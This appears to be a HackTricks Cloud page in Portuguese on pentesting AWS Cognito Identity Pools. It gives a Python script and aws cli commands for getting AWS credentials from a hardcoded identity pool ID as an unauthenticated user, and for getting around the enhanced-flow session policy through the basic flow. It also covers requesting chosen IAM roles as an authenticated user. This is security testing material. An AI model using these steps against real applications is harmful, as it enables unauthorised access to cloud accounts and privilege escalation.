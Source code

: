 # Pools de Identidade Cognito

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Informações Básicas

Com um pool de identidade, seus usuários podem **obter credenciais temporárias da AWS para acessar serviços da AWS**, como Amazon S3 e DynamoDB. Os pools de identidade suportam usuários convidados anônimos, bem como os seguintes provedores de identidade que você pode usar para autenticar usuários para os pools de identidade:

* Pools de usuários do Amazon Cognito
* Login social com Facebook, Google, Login com Amazon e Login com Apple
* Provedores de identidade OpenID Connect (OIDC)
* Provedores de identidade SAML
* Identidades autenticadas pelo desenvolvedor

### Cognito Sync

Para gerar sessões de pool de identidade, você primeiro precisa **gerar um ID de identidade**. Este ID de identidade é a **identificação da sessão desse usuário**. Essas identificações podem ter até 20 conjuntos de dados que podem armazenar até 1MB de pares de chave-valor.

Isso é **útil para manter informações de um usuário** (que sempre usará o mesmo ID de identidade).

Além disso, o serviço **cognito-sync** é o serviço que permite **gerenciar e sincronizar essas informações** (nos conjuntos de dados, enviando informações em fluxos e mensagens SNS...).

## Acessando Funções IAM

### Não autenticado

A única coisa que um atacante precisa saber para **obter credenciais da AWS** em um aplicativo Cognito como usuário não autenticado é o **ID do pool de identidade**, e esse **ID deve ser codificado** no aplicativo web/móvel para que ele o use. Um ID se parece com isso: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (não é possível forçar a força bruta).

{% hint style="success" %}
A **função IAM Cognito não autenticada criada via é chamada** por padrão de `Cognito_<Nome do pool de identidade>Unauth_Role`
{% endhint %}

Se você encontrar um ID de Pools de Identidade codificado e ele permitir usuários não autenticados, você pode obter credenciais da AWS com:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
Ou você pode usar os seguintes comandos **aws cli**:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Observe que por padrão, um usuário cognito **não autenticado NÃO PODE ter nenhuma permissão, mesmo que tenha sido atribuída por meio de uma política**. Verifique a seguinte seção.
{% endhint %}

### Fluxo de autenticação aprimorado vs básico

A seção anterior seguiu o **fluxo de autenticação aprimorado padrão**. Esse fluxo define uma política de sessão **restritiva** [**política de sessão**](../../aws-basic-information/#session-policies) para a sessão do papel IAM gerado. Essa política permitirá apenas que a sessão [**use os serviços desta lista**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (mesmo que o papel tenha acesso a outros serviços).

No entanto, há uma maneira de contornar isso, se o **pool de identidades tiver o "Fluxo Básico (Clássico)" habilitado**, o usuário poderá obter uma sessão usando esse fluxo que **não terá essa política de sessão restritiva**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Se você receber esse **erro**, é porque o **fluxo básico não está habilitado (padrão)**

`Ocorreu um erro (InvalidParameterException) ao chamar a operação GetOpenIdToken: O fluxo básico (clássico) não está habilitado, por favor, use o fluxo aprimorado.`
{% endhint %}

Tendo um conjunto de credenciais IAM, você deve verificar [quais acessos você possui](../../#whoami) e tentar [elevar privilégios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Lembre-se de que **usuários autenticados** provavelmente terão **permissões diferentes**, então, se você puder **se inscrever no aplicativo**, tente fazer isso e obter as novas credenciais.
{% endhint %}

Também pode haver **funções** disponíveis para **usuários autenticados acessando o Identity Pool**.

Para isso, você pode precisar ter acesso ao **provedor de identidade**. Se for um **Cognito User Pool**, talvez você possa abusar do comportamento padrão e **criar um novo usuário você mesmo**.

{% hint style="success" %}
A **função IAM Cognito autenticada criada via é chamada** por padrão de `Cognito_<Nome do Identity Pool>Auth_Role`
{% endhint %}

De qualquer forma, o **exemplo a seguir** pressupõe que você já tenha feito login em um **Cognito User Pool** usado para acessar o Identity Pool (não se esqueça de que outros tipos de provedores de identidade também podem ser configurados).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;região>.amazonaws.com/&#x3C;SEU_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtenha o identity_id da resposta do comando anterior
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;região>.amazonaws.com/&#x3C;SEU_USER_POOL_ID>=&#x3C;ID_TOKEN>


# No IdToken, você pode encontrar as funções às quais um usuário tem acesso por causa dos Grupos do User Pool
# Use --custom-role-arn para obter credenciais para uma função específica
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;região>.amazonaws.com/&#x3C;SEU_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
É possível **configurar diferentes funções IAM dependendo do provedor de identidade** pelo qual o usuário está sendo autenticado ou até mesmo apenas **no usuário** (usando claims). Portanto, se você tiver acesso a diferentes usuários pelo mesmo ou diferentes provedores, pode valer a pena **fazer login e acessar as funções IAM de todos eles**.
{% endhint %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
